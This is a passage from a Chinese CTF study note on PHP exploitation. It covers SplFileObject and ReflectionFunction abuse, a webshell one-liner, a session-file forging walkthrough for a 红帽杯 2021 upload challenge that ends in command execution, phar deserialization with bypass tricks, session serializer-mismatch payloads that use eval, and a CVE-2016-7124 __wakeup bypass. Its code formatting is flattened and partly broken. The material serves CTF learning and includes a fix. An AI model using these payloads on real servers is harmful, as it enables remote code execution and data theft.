在这个文件夹下找到了flag.php

文件读取类
然后我们使用 SplFileObject 类读取flag.php就行了：
1 2 3 4 5 6 7 8 9 10 <?php class A public $class ='SplFileObject' ; public $para ="/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php" ;public $check ;$poc = new A ();echo serialize ($poc );
得到payload：
1 O:1 :"A" :3 :{s:5 :"class" ;s:13 :"SplFileObject" ;s:4 :"para" ;s:55 :"/var/www/html/aMaz1ng_y0u_coUld_f1nd_F1Ag_hErE/flag.php" ;s:5 :"check" ;N;}

10.8 反射类Reflection
它可以在 PHP 运行状态中，扩展分析 PHP 程序，导出或提取出关于类、方法、属性、参数等的详细信息，包括注释。这种动态获取的信息以及动态调用对象的方法的功能称为反射API。
ReflectionMethod 类获取类方法的相关信息
ReflectionMethod 类报告了一个方法的有关信息。ReflectionMethod 类中有很多继承方法可以使用，比如这个 getDocComment() 方法，我们可以用它来获取类中各个函数注释内容
example:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php class FlagIsHere protected function GiveMeFlag ( {return 9999 ;$ref = new ReflectionMethod ('FlagIsHere' ,'GiveMeFlag' );var_dump ($ref ->getDocComment ());
输出：

ReflectionClass类读取类的属性和方法名
ReflectionClass 类报告了一个类的有关信息。其中初始化方法能够返回类的实例。
1 public ReflectionClass ::__construct (mixed $argument )
$argument：既可以是包含类名的字符串（string）也可以是对象（object）。
用法如下
example：

把类里面属性和方法的名字都能够显示出来。
ReflectionFunction类写Webshell
ReflectionFunction 类报告了一个函数的有关信息。其中invokeArgs()方法能够用来写Webshell。
1 public ReflectionFunction ::invokeArgs (array $args ): mixed
$args：传递给函数的参数是一个数组，像call_user_func_array()的工作方式。
example:
1 2 3 4 5 6 7 8 9 10 <?php function title ($title , $name return sprintf ("%s. %s\r\n" , $title , $name );$function = new ReflectionFunction ('title' );echo $function ->invokeArgs (array ('Dr' , 'Phil' ));?>

我们可以使用这个方法来写Webshell：
1 2 3 4 <?php $func = new ReflectionFunction ($_GET [m]);echo $func ->invokeArgs (array ($_GET [c]));?>

[红帽杯 2021 final]upload
由于线下是AWDplus的模式，需要挖洞并且修洞，直接给出了源码，有3个文件。
class.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 <?php session_start ();function red ($fileinfo foreach ($fileinfo as $key => $value ){$path = $value ;$name = $key ;echo "<a style='color:#ff6347' href='$path '>$name </a>\n" ;return $name ;function green ($fileinfo foreach ($fileinfo as $key => $value ){$path = $value ;$name = $key ;echo "<a style='color:#32cd32' href='$path '>$name </a>\n" ;return $name ;class file public $path ;function __construct ($path {$this ->path = $path ;function __toString ( {return basename ($this ->path);
index.php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 <?php include ('class.php' );if (!(isset ($_SESSION ['func' ]))) {$_SESSION ['func' ] = 'showfile' ;if (!(isset ($_SESSION ['files' ]))) {$_SESSION ['files' ] = array ();if (!(isset ($_SESSION ['paths' ]))) {$_SESSION ['paths' ] = array ();if (isset ($_POST ['filename' ])&&isset ($_POST ['content' ])){if (stristr ($_POST ['filename' ], 'h' )){die ('no h!' );$filepath = './files/' .$_POST ['filename' ]; $filename = basename ($_POST ['filename' ]); file_put_contents ($filepath ,$_POST ['content' ]);$_SESSION ['files' ][$filename ] = $filepath ; $_SESSION ['paths' ][$filepath ] = 'file' ; header ('Location:/?file=' .$filename );?> "index.php" method="post" >"text" name="filename" value="filename" style="width: 600px;" >"text" name="content" style="width: 600px;height: 300px;" ></textarea>"submit" value="submit" ><?php if (rand (0 ,2 )>1 ){$showfile = 'red' ;else {$showfile ='green' ;$filelist = array ();foreach ($_SESSION ['paths' ] as $path =>$class ){ $temp = new $class ($path ); if ($class =='file' ){ $filelist [] = (string )$temp ; else {$filelist [] = $temp ;$out = '<p>your file:' ;foreach ($filelist as $value ){$out .= $value .' ' ; echo $out .'</p>' ;if (isset ($_GET ['file' ])){if (isset ($_SESSION ['files' ][$_GET ['file' ]])) { $pathinfo = array ($_GET ['file' ]=>$_SESSION ['files' ][$_GET ['file' ]]);$_SESSION ['func' ]}($pathinfo );else {echo 'no such file!' ;?>
info.php
分析题目
首先是index页面

这里能够让用户填写文件的文件名和内容，然后提交，提交的文件正常情况下会保存在./files目录下，看一下后台是怎么对文件进行操作的：
1 2 3 4 5 6 7 if (isset ($_POST ['filename' ])&&isset ($_POST ['content' ])){if (stristr ($_POST ['filename' ], 'h' )){ die ('no h!' );$filepath = './files/' .$_POST ['filename' ]; $filename = basename ($_POST ['filename' ]); file_put_contents ($filepath ,$_POST ['content' ]);
通过分析可以发现我们上传的文件存在目录穿越的问题，我们能通过filename=../xxxx这种方式将文件保存的路径穿越到服务器的任意路径下，但是由于存在对文件名h字符的过滤，因此无法直接传一个php文件到网站根目录下执行，得另寻僻径。
.user.ini（无果）
既然过滤掉了h字符，意味着.htaccess这样的修改配置文件意味着行不通，但是我想起了另外一个修改配置的文件.user.ini。.user.ini和.htaccess一样是对当前目录的所以php文件的配置设置，即写了.user.ini和它同目录的文件会优先使用.user.ini中设置的配置属性。
但是不是php.ini中的每个变量都能通过ini_set()或者.user.ini和.htaccess来设置，简单的来说每个变量有它所属于的模式，下面官方手册的四个模式

通过上表，看到PHP_INI_USER模式中提到，可以在.user.ini中设定。但实际上，只要不是PHP_INI_SYSTEM模式下的属性，均可以在.user.ini中设置。
那配置文件应该怎么写呢，这里有官方的配置选项列表：php.ini 配置选项列表
在文件上传的题目中，我们只需记住这两个选项即可：
1 2 auto_prepend_file = xxx
于是我们就想是否能够通过上传一个一句话木马文件，然后再目录穿越将.user.ini上传到网站根目录下，内容是让其他文件都包含这个一句话木马，从而实现getshell，但是尝试了很多次都无果，由此猜测运行的模式是PHP_INI_SYSTEM导致了.user.ini无法生效。
SplFileObject类读文件
比赛的时候做到这里其实已经没思路了（还是题目刷得少啊），赛后看有通过SplFileObject 类 来读文件得思路，那先得了解一下SplFileObject 类 是个什么玩意。
SplFileInfo 类为单个文件的信息提供了一个高级的面向对象的接口，可以用于对文件内容的遍历、查找、操作等。详情请参考：https://www.php.net/manual/zh/class.splfileobject.php
该类的构造方法可以构造一个新的文件对象用于后续的读取。
我们可以像类似下面这样去读取一个文件的一行：
1 2 3 <?php $context = new SplFileObject ('/etc/passwd' );echo $context ;
但是这样也只能读取一行，要想全部读取的话还需要对文件中的每一行内容进行遍历：
1 2 3 4 5 <?php $context = new SplFileObject ('/etc/passwd' );foreach ($context as $f ){echo ($f );
session反序列化
那么我们知道了这个类之后有什么用呢，似乎找不到可以用的地方啊，想想文件中是不是还有一个文件我们都没用上，其中必然藏有解题的关键。
1 2 3 4 $_SESSION ['files' ][$filename ] = $filepath ; $_SESSION ['paths' ][$filepath ] = 'file' ; header ('Location:/?file=' .$filename );
这里把文件的名字和路径都存到了SESSION里面，但是我们能够看到$_SESSION['paths'][$filepath]的值是被写死了，我们无法控制，然后接着往下看
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 $filelist = array ();foreach ($_SESSION ['paths' ] as $path =>$class ){ $temp = new $class ($path ); if ($class =='file' ){ $filelist [] = (string )$temp ; else {$filelist [] = $temp ;$out = '<p>your file:' ;foreach ($filelist as $value ){$out .= $value .' ' ; echo $out .'</p>' ;
我们可以看到，这里从$_SESSION['paths']数组里面把每一个键（文件的路径）赋值给$path,将值'file'赋值给$class，然后重点就来了，这里用动态调用的方法新建了一个类对象，看到这里是不是觉得很奇怪，在上一段代码中，已经把每一个$_SESSION['paths']的值已经写死了为'file'了，为什么这里要动态调用而不是直接new file($path)这种更直接的方式呢，这里很明显有问题。接着往下看，这里又用if()来判断$class的值是否是'file'，这就更加明显了了，$class的值必然又猫腻，看回代码，最后是将新建的类对象赋值给一个临时变量，然后再通过循环输出每一个值，看到这里是不是有点熟悉，这不就是SplFileObject类需要循环来输出每一行的值吗？于是这里几乎能肯定是通过将$class的值变成SplFileObject，来获取文件的内容。
既然是读取SESSION的内容，那我是否能够改变SESSION的内容呢？结合我们目录穿越的漏洞，实际上如果我们知道SESSION保存的路径和SESSION序列化的方法，那么我们实际上可以直接上传一个SESSION文件到指定的目录中，控制SESSION的内容，所以最后一个info.php文件就是让我们看SESSION保存的路径和序列化方法的。

接着就是构造我们的SESSION序列化后的文件
1 paths|a:1:{s:5:"/flag";s:13:"SplFileObject";}
这里的键为/flag对应代码中的$path，值为SplFileObject对应$class，组合起来就是SplFileObject('/flag')。然后文件名需要目录穿越到/tmp/sess_[SSID的值]

func是一个变量，并未赋值，files变量有一个数组，其中键值filename对应./files/filename，后面的paths同理
这里懵逼了半天，我以为作者想靠PHP序列化引擎反序列化输入的content，弄半天只是将内容插入session文件中，这样由于他是php序列化引擎，将|看做键值分隔符，这样就path做为key，后面是值，那这一切就说通了…，与我所见不同的是，他这已经是目录穿越进入到session文件中了，因此他post写的内容就直接插入session文件，并不会被序列化处理（嗯，大概是这样吧）
ReflectionFunction反射类
这里是另外一个能利用的类，这个类能够直接写shell，比上面的只能读文件更加牛逼。这也应该是预期解，题目中所有的代码都用上了。
网上能够搜出来CTF中的用法是：
1 2 3 4 <?php $func = new ReflectionFunction ($_GET [m]);echo $func ->invokeArgs (array ($_GET [c]));?>

那这道题里面该怎么用这个类呢，由于要用到这个类里面的invokeArgs()这方法，因此要用到数组去动态调用类里面的方法。
example：
1 2 3 4 5 6 7 8 9 class Test public function hello ($name {echo "hello " .$name ;$t = new Test ();$a = array (0 => $t ,1 => "hello" );$a ('john' );
这里用数组的第一个位置的值是实例化后的类，第二个位置的值是类的方法名，因此我们要的是：
1 2 3 4 $function = new ReflectionFunction ('system' );$a = array (0 => $function ,1 => "invokeArgs" );$b = array (0 => 'whoami' );$a ($b );
先实例化ReflectionFunction类对象，然后再构造出这两个数组，最后找到一个能够动态调用的地方。
再看回题目，我们在之前的分析中已经能实现能够实例化自己想要的类了。
1 paths|a:1 :{s::"system" ;s::"ReflectionFunction" ;}
那怎么构造出第一个数组呢，再看回这段代码：
1 2 3 4 5 6 7 8 9 10 $filelist = array ();foreach ($_SESSION ['paths' ] as $path =>$class ){ $temp = new $class ($path ); if ($class =='file' ){ $filelist [] = (string )$temp ; else {$filelist [] = $temp ;
这里已经为我们准备好了一个$filelist数组，在构造ReflectionFunction类对象的时候由于$class不等于字符串'file'，因此是直接放进了数组中，然后数组第二位我们需要是'invokeArgs'这个字符串，因此我们可以让$class='file'同时让$path='invokeArgs'，这样就能够返回一串字符串添加进数组里面，从而完成第一个数组的构造！
1 paths|a:2 :{s:6 :"system" ;s:18 :"ReflectionFunction" ;s:10 :"invokeArgs" ;s:4 :"file" ;}
得到$filelist = array(0 => $temp,1 => "invokeArgs");
接下来就是构造第二个数组，和动态调用类方法。
1 2 3 4 5 6 7 8 9 10 if (isset ($_GET ['file' ])){if (isset ($_SESSION ['files' ][$_GET ['file' ]])) { $pathinfo = array ($_GET ['file' ]=>$_SESSION ['files' ][$_GET ['file' ]]);$_SESSION ['func' ]}($pathinfo ); else {echo 'no such file!' ;
可以看到$pathinfo这里为我们构造了一个数组，并且数组的键是从GET方法获取的，而值又是从SESSION中的files数组里面找的，因此我们同样能够控制。
1 files|a:1 :{i:0 ;s:6 :"whoami" ;}
当使用GET方法去传递file=0这个参数的时候就能够构造出$pathinfo = array(0=>'whoami')。
最后是动态调用，这里同样是从SESSION中的func参数中获取值进行动态调用，因此我们只需构造$_SESSION['func']='filelist'即可
综上所述，我们写进SESSION文件里面的内容是
1 func|s:8 :"filelist" ;files|a:1 :{i:0 ;s:6 :"whoami" ;}paths|a:2 :{s:6 :"system" ;s:18 :"ReflectionFunction" ;s:10 :"invokeArgs" ;s:4 :"file" ;}

这样就能够getshell了。
修复
修就很简单了，既然是因为目录穿越导致能够控制SESSION的内容，那么修掉目录穿越的地方就好了：
1 2 3 4 5 6 7 8 if (isset ($_POST ['filename' ])&&isset ($_POST ['content' ])){if (stristr ($_POST ['filename' ], 'h' )){ die ('no h!' );$filename = basename ($_POST ['filename' ]);$filepath = './files/' .$filename ; file_put_contents ($filepath ,$_POST ['content' ]);?>
参考：https://johnfrod.top/安全/ctf-中-php原生类的利用/
0x11 Phar反序列化
ctfshow 276
phar文件本质上是一种压缩文件，会以序列化的形式存储用户自定义的meta-data。当受影响的文件操
11.1 什么是phar文件
在软件中，PHAR（PHP归档）文件是一种打包格式，通过将许多PHP代码文件和其他资源（例如图像，
1 2 3 4 5 6 7 8 9 10 11 12 file:// — 访问本地文件系统，在用文件系统函数时默认就使用该包装器
11.2 phar文件的结构
1 2 3 4 5 6 7 8 9 10 11 1.stub
manifest 存放phar归档信息.Manifest结构如下图 所有未使用的标志保留，供将来使用，并且不得用于存储自定义信息。使用每个文件的元数据功能来存储有关特定文件的自定义信息.

下面生成一个phar文件phar.readonly = off
1 2 3 4 5 6 7 8 9 10 11 12 13 14 <?php class Test unlink ("phar.phar" );$phar = new Phar ("phar.phar" ); $phar ->startBuffering ();$phar ->setStub ("<?php __HALT_COMPILER(); ?>" ); $o = new Test ();$phar ->setMetadata ($o ); $phar ->addFromString ("test.txt" , "test" ); $phar ->stopBuffering ();?>
11.3 漏洞利用条件
phar文件要能够上传到服务器端。
要有可用的魔术方法作为“跳板”。
文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤。
11.4 受影响的函数：
https://blog.zsxsoft.com/post/38
php中的大部分与文件操作相关函数在通过phar协议获取数据时会将phar文件的meta-data部分反序列化
受影响的函数列表
fileatime
filectime
file_exists
file_get_contents
file_put_contents
file
filegroup
fopen
fileinode
filemtime
fileowner
fikeperms
is_dir
is_executable
is_file
is_link
is_readable
is_writable
is_writeable
parse_ini_file
copy
unlink
stat
readfile
11.5 绕过方式
当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://等绕过
1 2 3 4 compress.bzip:
当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
实战参考：https://xz.aliyun.com/t/6699#toc-4
11.6 从 PHP 源码探索 phar 利用成功的深层原因
1. PHP 流的概念
流的作用是在出发地和目的地之间传输数据。出发地和目的地可以是文件、命令行进程、网络连接、ZIP 或 TAR 压缩文件、临时内存、标准输入或输出，或者是通过 PHP 流封装协议 实现的任何其他资源。
如果你读写过文件，就用过流；如果你从 php://stdin 读取过数据，或者把输入写入 php://stdout，也用过流。流为 PHP 的很多 IO 函数提供了底层实现，如 file_get_contents、fopn、fread 和 fwrite 等。PHP 的流函数提供了不同资源的统一接口。
我们可以把流比作管道，把水（资源数据）从一个地方引到另一个地方。在水从出发地到目的地的过程中，我们可以过滤水，可以改变水质，可以添加水，也可以排出水。
2. 流封装协议（wrapper）
因为流式数据的种类各异，而每种类型需要独特的协议，以便读写数据，我们称这些协议为流封装协议。例如，我们可以读写文件系统，可以通过 HTTP、HTTPS 或 SSH 与远程 Web 服务器通信，还可以打开并读写 ZIP、RAR 或 PHAR 压缩文件
虽然过程是一样的，但是读写文件系统中文件的方式与收发 HTTP 消息的方式有所不同，流封装协议的作用是使用通用的接口封装这种差异。
每个流都有一个协议和一个目标。指定协议和目标的方法是使用流标识符：<scheme>://<target>，其中 <scheme> 是流的封装协议，<target> 是流的数据源。
下面使用 HTTP 流封装协议创建了一个与 Flicker API 通信的 PHP 流：
1 2 3 4 <?php
不要以为这是普通的网页 URL，file_get_contents() 函数的字符串参数其实是一个流标识符。http 协议会让 PHP 使用 HTTP 流封装协议，在这个参数中，http 之后是流的目标。
注：很多 PHP 开发者可能并不知道普通的 URL 其实是 PHP 流封装协议标识符的伪装。
2.2 file://流封装协议
我们通常使用 file_get_contents()、fopen()、fwrite() 和 fclose() 等函数读写文件系统，因为 PHP 默认使用的流封装协议是 file:// ，所以我们很少认为这些函数使用的是 PHP 流。下面的示例演示了使用 file:// 流封装协议创建一个读写 /etc/hosts 文件的流：
1 2 3 4 5 6 <?php $handle = fopen ('file:///etc/hosts' , 'rb' );while (feof ($handle ) !== TRUE ) {echo fgets ($handle );fclose ($handle );
我们通常会省略掉 file:// 协议，因为这是 PHP 使用的默认值。
这两段介绍来源于https://laravelacademy.org/post/7459.html，那么这个说明了一个什么问题呢？说明我们PHP 目前的几乎所有的 I/O 操作都是通过流配合流包装器来实现的，因为 PHP 默认的包装器就是 file:// ，虽然你没写，但是底层 PHP 还是通过流包装器实现的。
还有更多
使用 stream_get_wrappers() 获取当前系统注册的全部 wrapper
3. 开始向下挖掘
我们上面说了，phar 文件中存在我们可控的序列化的内容，然后我们又说，这个内容在 文件系统函数 配合 phar:// 的时候能实现反序列化，但是我们没说为什么，这也就是我们这节讨论的重点，所有的原因都能从源代码找到答案
(1)先看一下 Phar 文件源代码部分
因为 Phar 是 PHP 的一个扩展，于是我们在 GitHub 的 php-src/ext/phar/phar.c 去全局搜索 unserailize() 函数
如图所示：
(2)但是这个函数为什么能调用呢
这就涉及到了文件系统函数的部分了，我们找一下源码，位置在 Github php-src/ext/standard/file.cfile_get_contents
如图所示：
然后我们稍微往下翻翻就能发现和处理 wrapper 流相关的函数
如图所示：
我们发现了这个 php)stream_open_wrapper_ex 这个函数能处理我们的 wrapper ，那么其他的类似的函数是不是也是底层调用了这个函数呢？
(3)由此及彼
我们全局搜索一下 fopen() ，然后我们看一下具体的实现
如图所示：
是不是很熟悉？这下好了，我们不如把 PHP 源码下载下来，来一个真正的全局搜索
(4)举一反三
我本地使用 sublime text 对整个 PHP 源码进行了扫描，发现了很多很多地方调用了这个函数，其实并不只是我们常见的 文件系统函数
如图所示：
好家伙，太底层了，看不懂了，日后拜读
参考：https://www.k0rz3n.com/2018/11/19/一篇文章带你深入理解PHP反序列化漏洞/#4-phar-的实战
0x12 php-session反序列化
12.1 session简单介绍
在计算机中，尤其是在网络应用中，称为“会话控制”。Session 对象存储特定用户会话所需的属性及配置信息。这样，当用户在应用程序的 Web 页之间跳转时，存储在 Session 对象中的变量将不会丢失，而是在整个用户会话中一直存在下去。当用户请求来自应用程序的 Web 页时，如果该用户还没有会话，则 Web 服务器将自动创建一个 Session 对象。当会话过期或被放弃后，服务器将终止该会话。当第一次访问网站时，**seesion_start()**函数就会创建一个唯一的Session ID，并自动通过HTTP的响应头，将这个Session ID保存到客户端Cookie中。同时，也在服务器端创建一个以Session ID命名的文件，用于保存这个用户的会话信息。当同一个用户再次访问这个网站时，也会自动通过HTTP的请求头将Cookie中保存的Seesion ID再携带过来，这时Session_start()函数就不会再去分配一个新的Session ID，而是在服务器的硬盘中去寻找和这个Session ID同名的Session文件，将这之前为这个用户保存的会话信息读出，在当前脚本中应用，达到跟踪这个用户的目的。
1 2 3 4 5 6 7 官方Session定义：在计算机中，尤其是在网络应用中，称为“会话控制”。Session对象存储特定用户会话所需的属性及配置信息。主要有以下特点：
12.2 session 的存储机制
php中的session中的内容并不是放在内存中的，而是以文件的方式来存储的，存储方式就是由配置项
12.3 session文件创建的几个tip
1.代码中有session_start(),会自动创建session文件。
2.如果session.auto_start=On ，则PHP在接收请求的时候会自动初始化Session（也就创建了session文件），不再需要执行session_start()。但默认情况下，这个选项都是关闭的。
3.session还有一个默认选项，session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。
1 比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”。即使此时用户没有初始化Session，PHP也会自动初始化Session。 并产生一个键值，这个键值有ini.get("session.upload_progress.prefix")+由我们构造的session.upload_progress.name值组成，最后被写入session文件里。
注意：如果默认配置session.upload_progress.cleanup = on导致文件上传后，session文件内容立即清空。这时我们就要利用竞争，在session文件内容清空前进行包含利用。
12.4 PHP session工作流程
以PHP为例，理解session的原理
1 2 3 4 5 6 7 8 9 10 11 1. PHP脚本使用 session_start()时开启`session`会话，会自动检测`PHPSESSID`
具体原理图：
12.5 php.ini中一些session配置
session.save_handler=“” –设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)
session.auto_start boolen –指定会话模块是否在请求开始时启动一个会话默认为0不启动
session.save_path="/tmp" --设置session文件的存储位置
session.auto_start= 0 --指定会话模块是否在请求开始时启动一个会话，默认值为 0，不启动
session.serialize_handler= php --定义用来序列化/反序列化的处理器名字，默认使用php
session.upload_progress.enabled= On --启用上传进度跟踪，并填充$ _SESSION变量，默认启用
session.upload_progress.cleanup= On --读取所有POST数据（即完成上传）后立即清理进度信息，默认启用
12.6 不同的引擎来处理session文件
1. php处理器
首先来看看默认session.serialize_handler = php时候的序列化结果，代码如下
1 2 3 4 5 6 <?php error_reporting (0 );ini_set ('session.serialize_handler' ,'php' );session_start ();$_SESSION ['session' ] = $_GET ['session' ];?>
php处理器存储格式
键名
竖线
经过 serialize() 函数反序列处理的值
$_SESSION[‘name’]的键名：name
|
s:7:“xianzhi”;
2. php_binary处理器
使用php_binary处理器，即session.serialize_handler = php_binary
1 2 3 4 5 6 <?php error_reporting (0 );ini_set ('session.serialize_handler' ,'php_binary' );session_start ();$_SESSION ['sessionsessionsessionsessionsession' ] = $_GET ['session' ];?>
为了更能直观的体现出格式的差别，因此这里设置了键值长度为 35，35 对应的 ASCII 码为#，所以最终的结果如下图所示：
键名的长度对应的 ASCII 字符
键名
经过 serialize() 函数反序列处理的值.
$
sessionsessionsessionsessionsession
s:7:“xianzhi”;
3. php_serialize 处理器
使用php_binary处理器，即session.serialize_handler = php_serialize
1 2 3 4 5 6 <?php error_reporting (0 );ini_set ('session.serialize_handler' ,'php_serialize' );session_start ();$_SESSION ['session' ] = $_GET ['session' ];?>
序列化的结果为：a:1:{s:7:"session";s:7:"xianzhi";}
a:1表示$_SESSION数组中有 1 个元素，花括号里面的内容即为传入 GET 参数经过序列化后的值
4. session的反序列化漏洞利用
session的反序列化漏洞，就是利用php处理器和php_serialize处理器的存储格式差异而产生，通过具体的代码我们来看下漏洞出现的原因
php引擎的存储格式是键名|serialized_string，而php_serialize引擎的存储格式是serialized_string。如果程序使用两个引擎来分别处理的话就会出现问题
1 2 3 4 5 <?php session_start ();$_SESSION ['aaa' ] = 'bbb' ;
1 2 3 4 5 6 <?php ini_set ('session.serialize_handler' ,'php_serialize' );session_start ();$_SESSION ['aaa' ] = 'bbb' ;
具体示例分析：
首先创建session.php，使用php_serialize处理器来存储session数据
1 2 3 4 5 6 <?php ini_set ('session.serialize_handler' ,'php_serialize' );session_start ();$_SESSION ['session' ] = $_GET ['session' ];echo $_SESSION ['session' ];?>
test.php，使用默认php处理器来存储session数据
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php session_start ();class f4ke public $name ;function __wakeup (echo "Who are you?" ;function __destruct (eval ($this ->name);$str = new f4ke ();?>
接着，我们构建URL进行访问session.php：
1 http://www.session-serialize.com/session.php?session=|O:4:"f4ke":1:{s:4:"name";s:10:"phpinfo();";}
打开PHPSESSID文件可看到序列化存储的内容
1 a:1 :{s:7 :"session" ;s:45 :"|O:4:" f4ke":1:{s:4:" name";s:10:" phpinfo ();";}
漏洞分析：
在session.php程序执行，我们将|O:4:"f4ke":1:{s:4:"name";s:10:"phpinfo();";}通过php_serialize处理器序列化保存成PHPSESSID文件；
由于浏览器中保存的PHPSESSID文件名不变，当我们访问test.php，session_start();找到PHPSESSID文件并使用php处理器反序列化文件内容，识别格式即
键名
竖线
经过 serialize() 函数反序列处理的值
a:1:{s:7:“session”;s:45:"
|
O:4:“f4ke”:1:{s:4:“name”;s:10:“phpinfo();”;}
php处理器会以|作为分隔符，将O:4:"f4ke":1:{s:4:"name";s:10:"phpinfo();";}反序列化，就会触发__wakeup()方法，最后对象销毁执行__destruct()方法中的eval()函数，相当于执行如下：
1 2 $_SESSION['session'] = new f4ke();
我们访问test.php，即可直接执行phpinfo()函数
CTF例题：PHPINFO
找不到原题，先跟着做一遍
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 <?php ini_set ('session.serialize_handler' , 'php' );session_start ();class OowoO public $mdzz ;function __construct ( {$this ->mdzz = 'phpinfo();' ;function __destruct ( {eval ($this ->mdzz);if (isset ($_GET ['phpinfo' ]))$m = new OowoO ();else highlight_string (file_get_contents ('index.php' ));?>
我们可以看到ini_set('session.serialize_handler', 'php')，判断可能存在session反序列化漏洞，根据代码逻辑，访问URL加上phpinfo参数新建对象触发魔术方法执行phpinfo()函数，进一步查看session.serialize_handler配置
可见php.ini中session.serialize_handler = php_serialize，当前目录中被设置为session.serialize_handler = php，因此存在session反序列化利用的条件
补充知识
1 2 3 4 phpinfo文件中
那么我们如何找到代码入口将利用代码写入到session文件？想要写入session文件就得想办法在$_SESSION变量中增加我们可控的输入点
补充知识
1 2 3 4 5 Session 上传进度(此特性自 PHP 5.4.0 后可用)
翻译成人话就是，当检测Session 上传进度这一特性是开启状态时，我们可以在客户端写一个文件上传的功能，文件上传的同时，POST一个与php.ini中设置的session.upload_progress.name同名变量PHP_SESSION_UPLOAD_PROGRESS，如下图，即可写入$_SESSION，进一步序列化写入session文件
下面是官方给出的一个文件上传时监测进度例子:
1 2 3 4 5 6 <form action ="upload.php" method ="POST" enctype ="multipart/form-data" > <input type ="hidden" name ="<?php echo ini_get(" session.upload_progress.name "); ?> " value="123" /><input type ="file" name ="file1" /> <input type ="file" name ="file2" /> <input type ="submit" /> </form >
其中name=""也可以设置为name="PHP_SESSION_UPLOAD_PROGRESS"
在session中存储的上传进度，如下所示:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 <?php $_SESSION ["upload_progress_123" ] = array ("start_time" => 1234567890 , "content_length" => 57343257 , "bytes_processed" => 453489 , "done" => false , "files" => array (0 => array ("field_name" => "file1" , "name" => "foo.avi" , "tmp_name" => "/tmp/phpxxxxxx" ,"error" => 0 ,"done" => true , "start_time" => 1234567890 , "bytes_processed" => 57343250 , 1 => array ("field_name" => "file2" ,"name" => "bar.avi" ,"tmp_name" => NULL ,"error" => 0 ,"done" => false ,"start_time" => 1234567899 ,"bytes_processed" => 54554 ,
其中，session中的field_name和name都是我们可控的输入点！
下面我们就开始解题拿到flag
首先，http://web.jarvisoj.com:32784/index.php?phpinfo查询设置
1 2 session.upload_progress.enabled = On --表明允许上传进度跟踪，并填充$ _SESSION变量
即允许上传进度跟踪且结束后不清除数据，更有利使用session.upload_progress.name来将利用代码写入session文件
构造POST表单提交上传文件
1 2 3 4 5 <form action ="http://web.jarvisoj.com:32784/index.php" method ="POST" enctype ="multipart/form-data" > <input type ="hidden" name ="PHP_SESSION_UPLOAD_PROGRESS" value ="123" /> <input type ="file" name ="file" /> <input type ="submit" /> </form >
构造序列化字符串作为payload（利用代码）
1 2 3 4 5 6 7 8 9 <?php class OowoO public $mdzz ='print_r(scandir(dirname(__FILE__)));' ;$obj = new OowoO ();echo serialize ($obj );?>
为了防止"被转义，我们在payload中加入\
随意选择文件，点击表单提交，使用抓包工具burpsuite抓取请求包
并修改filename值为
1 |O:5 :\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
发送请求包，代码执行过程分析：
因此直接执行print_r(scandir(dirname(__FILE__)));并返回
1 phpinfo`查看当前目录，`/opt/lampp/htdocs/
构造最终payload读取Here_1s_7he_fl4g_buT_You_Cannot_see.php文件内容，即flag
1 |O:5 :\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}
这里不知道为啥访问不了连接，找到了原靶场也不行…
ctfshow web263
session.upload_progress进行文件包含和反序列化渗透 https://www.freebuf.com/vuls/202819.ht
12.7 CVE-2016-7124
漏洞分析
该漏洞存在于PHP5小于5.6.25版本或PHP7小于7.0.10版本中，该漏洞简单来说就是当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup()的执行，demo如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <html>"utf-8" ><?php class test var $name = "Jacky" ;function __destruct ($file = fopen ("hello.php" ,"w" );fputs ($file ,$this ->name);fclose ($file );function __wakeup ( {foreach (get_object_vars ($this ) as $k => $v ) {$this ->$k = null ;echo "Waking up...\n" ;$test = $_POST ['test' ];$test_unser = unserialize ($test );?>
由于__wakeup()的执行顺序在__destruct()之前，所以__wakeup()会将对象内的所有属性设为NULL，在__destruct()执行时，没有内容会写到文件中。但使用漏洞，可以跳过__wakeup()，直接执行__destruct()，这样可以将属性内容写入文件中。
如果我们使用如下payload
1 test=O:4:"test":1:{s:4:"name";s:18:"<?php phpinfo();?>";}
会执行__wakeup()函数，页面上会出现如下输出
如果我们使用如下payload
1 test=O:4:"test":2:{s:4:"name";s:18:"<?php phpinfo();?>";}
会执行__wakeup()函数，页面上会出现如下输出
这里发现个有趣的事情,echo 不能打印出PHP标识符<?php,因此要url编码一下
GPT回答:
1 2 3 4 5 6 7 8 9 在PHP中，<?php 是一个标记（tag），用于指示 PHP 代码的起始点。当使用 echo 函数时，它会将其后的内容作为字符串进行输出。但是，如果你尝试使用 echo 输出 <?php，它将被解释为一个 PHP 的起始标记，而不是普通的字符串。
防御方法：
1.严格的把控 unserailize() 函数的参数，不要给攻击者任何输入的可能
PHP手册：https://www.php.net/manual/en/book.stream.php